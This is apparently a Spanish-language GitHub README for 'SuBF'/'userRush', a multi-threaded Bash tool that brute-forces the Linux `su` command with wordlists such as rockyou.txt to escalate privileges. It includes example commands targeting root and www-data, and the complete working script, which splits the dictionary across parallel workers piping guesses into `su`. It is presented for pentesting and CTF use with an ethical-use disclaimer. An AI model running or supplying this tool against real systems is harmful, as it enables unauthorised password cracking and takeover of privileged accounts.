

## Introducción

**SuBF** es una herramienta especializada de fuerza bruta diseñada específicamente para atacar el comando `su` (switch user) en sistemas Linux. Desarrollada en Bash, ofrece una solución rápida y eficiente para pruebas de penetración y escenarios CTF donde es necesario escalar privilegios mediante la adivinación de contraseñas.

```bash
# Ejemplo básico de uso
./userRush.sh -u root -d rockyou.txt -t 8
```

## Características Principales

### 🚀 **Alto Rendimiento**
- **Arquitectura Multi-hilo**: Ejecuta múltiples workers en paralelo
- **Tiempos de Timeout Optimizados**: 0.3-0.5 segundos por prueba
- **Procesamiento Segmentado**: Divide diccionarios automáticamente
- **Overhead Mínimo**: Operaciones directas sin capas intermedias

## Arquitectura Técnica

### Diagrama de Flujo


## Uso en Escenarios CTF

### Caso 1: **Escalada Rápida de Privilegios**
```bash
# Atacar usuario root con diccionario común
./userRush.sh -u root -d /usr/share/wordlists/rockyou.txt -t 4

# Output esperado:
# [+] ¡CONTRASEÑA ENCONTRADA!
# [+] Usuario: root
# [+] Contraseña: password123
# [+] Hilo: 2
# [+] Tiempo: 45s
```

### Caso 2: **Usuario con Permisos Especiales**
```bash
# Atacar usuarios con sudo privileges
./userRush.sh -u www-data -d custom_wordlist.txt -t 8 -q
```

### Caso 3: **Búsqueda Dirigida**
```bash
# Usar diccionario personalizado basado en información del sistema
./userRush.sh -u $(whoami) -d targeted_passwords.txt -t 2
```

## Parámetros de Configuración

### Opciones Principales
| Parámetro | Descripción | Valor por Defecto |
|-----------|-------------|-------------------|
| `-u USER` | Usuario objetivo | (Obligatorio) |
| `-d DICT` | Ruta al diccionario | `rockyou.txt` |
| `-t NUM`  | Número de hilos | `1` |
| `-q`      | Modo quiet (sin output) | `false` |
| `-h`      | Mostrar ayuda | N/A |


## Consideraciones de Seguridad

### 🔒 **Uso Ético**
- Solo utilizar en sistemas propios o con autorización
- Herramienta diseñada para pentesting legal y CTFs
- No utilizar para actividades maliciosas

### ⚠️ **Limitaciones Técnicas**
- Efectividad dependiente de la calidad del diccionario
- Puede ser detectado por sistemas de seguridad


## Script
```bash
#!/bin/bash
#UserRush.sh

# Colores
RED='\033[0;31m'
GREEN='\033[0;32m'
YELLOW='\033[1;33m'
BLUE='\033[0;34m'
PURPLE='\033[0;35m'
CYAN='\033[0;36m'
NC='\033[0m' # No Color

# Variables
USER=""
DICT="rockyou.txt"
THREADS=1
SHOW_PASSWORDS=1
FOUND=0
INTERRUPTED=0

# Array para PIDs de workers
WORKER_PIDS=()

# Limpieza MEJORADA
cleanup() {
    INTERRUPTED=1
    echo -e "\n${YELLOW}[!] Deteniendo todos los procesos...${NC}"

    # Matar todos los procesos hijos y sus grupos
    for pid in "${WORKER_PIDS[@]}"; do
        if kill -0 "$pid" 2>/dev/null; then
            kill -TERM "$pid" 2>/dev/null
            sleep 0.1
            kill -KILL "$pid" 2>/dev/null
        fi
    done

    # Matar cualquier proceso suelto
    pkill -P $$ 2>/dev/null

    # Limpiar archivos temporales
    rm -f /tmp/subf_* 2>/dev/null

    if [ $INTERRUPTED -eq 1 ]; then
        echo -e "${YELLOW}[!] Ejecución interrumpida por el usuario${NC}"
        exit 1
    fi
}

# Capturar Ctrl+C MEJORADO
trap 'cleanup' INT TERM

# Ayuda
show_help() {
    echo -e "${CYAN}"
    echo "╔══════════════════════════════════════╗"
    echo "║                userRush              ║"
    echo "║      Multihilo + Ctrl+C funcional    ║"
    echo "╚══════════════════════════════════════╝"
    echo -e "${NC}"
    echo -e "Uso: $0 -u usuario -d diccionario [-t hilos] [-q]"
    echo ""
    exit 0
}

# Función de prueba MEJORADA
test_password() {
    local password="$1"
    # Método más confiable para detectar éxito
    result=$(echo "$password" | timeout 0.5 su "$USER" -c 'id' 2>/dev/null)
    if [ $? -eq 0 ] && [ -n "$result" ]; then
        return 0
    fi
    return 1
}

# Modo multi-hilo CORREGIDO
run_fixed_parallel() {
    local dict_file="$1"
    local num_threads="$2"
    local total_lines=$(wc -l < "$dict_file")
    local lines_per_part=$((total_lines / num_threads + 1))

    echo -e "${YELLOW}[*] Dividiendo diccionario en $num_threads partes...${NC}"

    # Dividir archivo
    split -d -l "$lines_per_part" "$dict_file" /tmp/subf_part_

    # Función worker CORREGIDA
    worker() {
        local part_file="$1"
        local worker_id="$2"
        local counter=0

        # Trap local para el worker
        trap 'exit 1' TERM INT

        while IFS= read -r password && [ $INTERRUPTED -eq 0 ]; do
            counter=$((counter + 1))

            # Verificar si ya se encontró
            if [ -f /tmp/subf_found ]; then
                exit 0
            fi

            # Mostrar password
            if [ $SHOW_PASSWORDS -eq 1 ]; then
                echo -e "${BLUE}[Hilo $worker_id] Probando: ${NC}$password"
            fi

            # Probar contraseña
            if test_password "$password"; then
                echo "$password" > /tmp/subf_found
                echo "$worker_id" > /tmp/subf_worker_id
                echo "$counter" > /tmp/subf_worker_attempts
                exit 0
            fi

            # Pequeña pausa para permitir interrupciones
            sleep 0.01

        done < "$part_file"

        rm -f "$part_file"
    }

    # Iniciar workers
    WORKER_PIDS=()
    for i in $(seq 0 $((num_threads-1))); do
        part_file="/tmp/subf_part_$(printf "%02d" $i)"
        if [ -f "$part_file" ]; then
            worker "$part_file" "$((i+1))" &
            WORKER_PIDS+=($!)
            echo -e "${GREEN}[*] Hilo $((i+1)) iniciado (PID: $!)${NC}"
        fi
    done

    echo -e "${YELLOW}[*] Esperando resultados... (Ctrl+C para cancelar)${NC}"

    # Esperar a que algún worker termine
    while [ $INTERRUPTED -eq 0 ] && [ ${#WORKER_PIDS[@]} -gt 0 ]; do
        # Verificar si se encontró la contraseña
        if [ -f /tmp/subf_found ]; then
            FOUND=1
            break
        fi

        # Verificar si algún worker terminó
        for i in "${!WORKER_PIDS[@]}"; do
            pid="${WORKER_PIDS[$i]}"
            if ! kill -0 "$pid" 2>/dev/null; then
                # Worker terminó, verificar si encontró
                if [ -f /tmp/subf_found ]; then
                    FOUND=1
                    break 2
                fi
                # Remover PID de la lista
                unset "WORKER_PIDS[$i]"
            fi
        done

        sleep 0.5
    done

    # Si se encontró o interrumpió, matar workers
    if [ $FOUND -eq 1 ] || [ $INTERRUPTED -eq 1 ]; then
        for pid in "${WORKER_PIDS[@]}"; do
            kill -TERM "$pid" 2>/dev/null
        done
        wait "${WORKER_PIDS[@]}" 2>/dev/null
    else
        # Esperar a que todos terminen naturalmente
        wait "${WORKER_PIDS[@]}" 2>/dev/null
    fi

    # Mostrar resultado
    if [ -f /tmp/subf_found ]; then
        found_password=$(cat /tmp/subf_found)
        worker_id=$(cat /tmp/subf_worker_id 2>/dev/null || echo "?")
        attempts=$(cat /tmp/subf_worker_attempts 2>/dev/null || echo "?")

        echo -e "\n${GREEN}"
        echo "╔══════════════════════════════════════╗"
        echo "║        ¡CONTRASEÑA ENCONTRADA!       ║"
        echo "╚══════════════════════════════════════╝"
        echo -e "${NC}"
        echo -e "${GREEN}[+] Usuario:${NC} ${RED}$USER${NC}"
        echo -e "${GREEN}[+] Contraseña:${NC} ${RED}$found_password${NC}"
        echo -e "${GREEN}[+] Intentos del hilo:${NC} $attempts"
    fi

    # Limpieza
    rm -f /tmp/subf_part_* /tmp/subf_found /tmp/subf_worker_* 2>/dev/null
}

# Modo single-thread (ya funciona)
run_single() {
    local dict_file="$1"
    local counter=0
    local total_lines=$(wc -l < "$dict_file")

    while IFS= read -r password && [ $INTERRUPTED -eq 0 ]; do
        counter=$((counter + 1))

        if [ $SHOW_PASSWORDS -eq 1 ]; then
            echo -e "${BLUE}[Main] Probando: ${NC}$password"
        fi

        if test_password "$password"; then
            echo -e "\n${GREEN}[+] ¡CONTRASEÑA ENCONTRADA!${NC}"
            echo -e "${GREEN}[+] Usuario:${NC} $USER"
            echo -e "${GREEN}[+] Contraseña:${NC} $password"
            echo -e "${GREEN}[+] Posición:${NC} $counter"
            FOUND=1
            return 0
        fi

        if [ $((counter % 500)) -eq 0 ]; then
            echo -e "${YELLOW}[*] $counter/$total_lines probadas...${NC}"
        fi
    done < "$dict_file"
}

# Procesar parámetros
while getopts "u:d:t:qh" opt; do
    case $opt in
        u) USER="$OPTARG" ;;
        d) DICT="$OPTARG" ;;
        t) THREADS="$OPTARG" ;;
        q) SHOW_PASSWORDS=0 ;;
        h) show_help ;;
        *) show_help ;;
    esac
done

# Validaciones
if [ -z "$USER" ] || [ -z "$DICT" ]; then
    echo -e "${RED}[-] Usa -u y -d para usuario y diccionario${NC}"
    show_help
fi

if [ ! -f "$DICT" ]; then
    echo -e "${RED}[-] Diccionario '$DICT' no encontrado${NC}"
    exit 1
fi

# Información inicial
echo -e "${CYAN}"
echo "╔══════════════════════════════════════╗"
echo "║           userRush CORREGIDO             ║"
echo "║      Multihilo + Ctrl+C funcional    ║"
echo "╚══════════════════════════════════════╝"
echo -e "${NC}"
echo -e "${GREEN}[*] Usuario:${NC} $USER"
echo -e "${GREEN}[*] Diccionario:${NC} $DICT"
echo -e "${GREEN}[*] Hilos:${NC} $THREADS"
echo -e "${GREEN}[*] Total:${NC} $(wc -l < "$DICT") contraseñas"

# Iniciar temporizador
SECONDS=0

# Ejecutar
if [ "$THREADS" -gt 1 ]; then
    echo -e "${YELLOW}[*] Iniciando modo MULTIHILO corregido...${NC}"
    run_fixed_parallel "$DICT" "$THREADS"
else
    echo -e "${YELLOW}[*] Iniciando modo SINGLE-THREAD...${NC}"
    run_single "$DICT"
fi

# Tiempo y resultado
elapsed_time=$SECONDS
echo -e "${YELLOW}[*] Tiempo total: ${elapsed_time}s${NC}"

if [ $FOUND -eq 0 ] && [ $INTERRUPTED -eq 0 ]; then
    echo -e "${RED}[-] Contraseña no encontrada${NC}"
fi

# Limpieza final
cleanup
```

**Nota**: Siempre utilizar de manera responsable y con los permisos adecuados.